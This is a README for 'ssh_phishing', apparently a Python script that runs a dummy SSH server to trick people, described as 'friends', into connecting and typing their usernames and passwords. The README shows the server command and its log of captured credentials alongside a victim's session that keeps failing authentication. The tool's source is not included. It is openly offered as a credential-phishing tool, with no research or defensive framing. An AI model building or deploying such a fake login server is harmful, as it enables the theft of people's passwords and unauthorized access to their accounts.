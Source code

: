 # ssh_phishing

A python script that creates a dummy ssh server to make friends connect and submit their credentials (:

### The server
```
$ python ssh_phishing.py /etc/ssh/ssh_host_rsa_key
Waiting for connections...
Connection from: 127.0.0.1
Waiting for authentication...
Username: m.user
Password: my_pass
------------------------------
Username: m.user
Password: 123456
------------------------------
Username: m.user
Password: 123456
```

### The victim
```
$ ssh m.user@localhost -p 2222
m.user@localhost's password: 
Permission denied, please try again.
m.user@localhost's password: 
Permission denied, please try again.
m.user@localhost's password: 
m.user@localhost: Permission denied (password).
$
```
